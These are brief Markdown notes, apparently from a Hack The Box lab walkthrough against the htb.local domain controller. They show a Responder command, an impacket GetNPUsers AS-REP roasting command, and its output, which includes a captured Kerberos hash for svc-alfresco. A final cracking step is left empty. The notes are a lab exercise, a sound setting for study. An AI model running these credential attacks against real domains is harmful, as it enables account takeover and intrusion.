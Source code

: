 - Start responder 
```
sudo responder -I tun0
```
- Create wordlist from usernames 
- check for no preauth users with get npusers from impacket
```
impacket-GetNPUsers -dc-ip 10.10.10.161 htb.local/ -usersfile users.txt -format hashcat -outputfile hashes.domain.txt
```
- Output
```
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:f1d92e8069100d3211632fa206366492$8fce52fb998ae5b9355991e862ea90534d371d025b36ad742360b7fff69d9105463067b15841c06058ef41986c87338ffd20397f441dbaa1fdb8d9e24a18bd9339fe35d9b33de372022a00a6590cdc597278af5f362cf1d0d70397e95a1c323542211329a5b4f1f1014cff3748a65d739b4c39ce47472524b3bab650437a7621dbbca97e851196669fa29368c6815db3c447cff039cdd24900fbc61cfb433b626285940e81763b296789ad0cf4bd357f80714d0970f970cc084d195f9c3ece012e15884b8ee235ed130d701247fc60d26bd9781b3a0ab981a17566dc05628a77381860bf9468
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```
- Cracking svc-alfresco with mimikatz
```

```